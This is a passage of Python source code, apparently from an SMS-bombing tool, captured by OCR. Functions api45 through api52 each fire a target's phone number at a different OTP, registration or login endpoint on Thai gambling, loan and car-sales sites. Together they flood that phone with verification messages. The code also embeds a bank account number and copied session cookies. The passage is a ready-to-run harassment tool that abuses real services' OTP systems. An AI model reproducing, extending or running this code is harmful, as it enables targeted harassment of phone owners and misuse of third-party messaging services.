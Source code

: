     post("https://ufa108.ufabetcash.com/api/",headers=header,data=f"cmd=request_form_register_detail_check&web_account_id=36&auto_bank_group_id=1&m_name=sl&m_surname=ak&m_line=snsb1j&m_bank=4&m_account_number=8572178402&m_from=41&m_phone={phone}")



def api45(phone):

    post("https://www.mrcash.top/h5/LoginMessage_ultimate",data = {"phone": phone,"type":"2","ctype":"1"})

    

def api46(phone):

    post("https://www.qqmoney.ltd/jackey/sms/login",json = {"appId":"5fc9ff297eb51f1196350635","companyId":"5fc9ff12197278da22aff029","mobile": phone},headers={"Content-Type": "application/json;charset=UTF-8"})



def api47(phone):

    post("https://www.monomax.me/api/v2/signup/telno",json ={"password":"12345678+","telno": phone})



def api48(phone):

    post("https://m.pgwin168.com/api/register-otp",json ={"brands_id":"60e4016f35119800184f34a5","agent_register":"60e57c3b2ead950012fc5fba","tel": phone})



def api49(phone):

    post("https://www.som777.com/api/otp/register",json ={"applicant": phone,"serviceName":"SOM777"})

    

def api50(phone):

    post("https://www.konglor888.com/api/otp/register",json = {"applicant": phone,"serviceName":"KONGLOR888"})



def api51(phone):

    get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})

    

def api52(phone):

    get("https://users.cars24.co.th/oauth/consumer-app/otp/"+phone+"?lang=th", headers = {"accept": "application/json, text/plain, */*","x_vehicle_type":"CAR","cookie":"_ga=GA1.3.523508414.1640152799;_gid=GA1.3.999851247.1640152799;_fbp=fb.2.1640152801502.837786780;_gac_UA-65843992-28=1.1640152807.EAIaIQobChMIi9jVo9329AIVizArCh1bFAuMEAAYASAAEgJqA_D_BwE;_dc_gtm_UA-65843992-28=1;_hjSessionUser_2738441=eyJpZCI6IjYwMjMzZjYyLTFlMzYtNWZmMy04MjZkLTMzOTAxNTMwODQ4NyIsImNyZWF0ZWQiOjE2NDAxNTI4MDEzMDYsImV4aXN0aW5nIjp0cnVlfQ==;_hjSession_2738441=eyJpZCI6ImI4MDNlNTFkLTFiYTYtNGExZi05MGIzLTk5OWRmMjhhM2RiOCIsImNyZWF0ZWQiOjE2NDAxNjY4ODgwNDF9;_hjAbsoluteSessionInProgress=0;cto_bundle=uVFzcF8lMkYxM0hsRGxQc1M4YThaRmhHJTJGRTBtSUdwNzVuRkVldzI5QlpIYktWbnZFcUlzdDZ1ZnhMT3JqVVhFQyUyQmtGUE9MTFk5akpyVnl4ekZnZlJ4UVN3WnRHdUNyJTJGWW03aVRSeWtLc2wxTjA3QmR0THNzcjNsJTJCcEJHSXlOUzNxTVc2ZmJPaGclMkZhRUhkV3I2cTI1dXUlMkZhYnl1dyUzRCUzRA"})
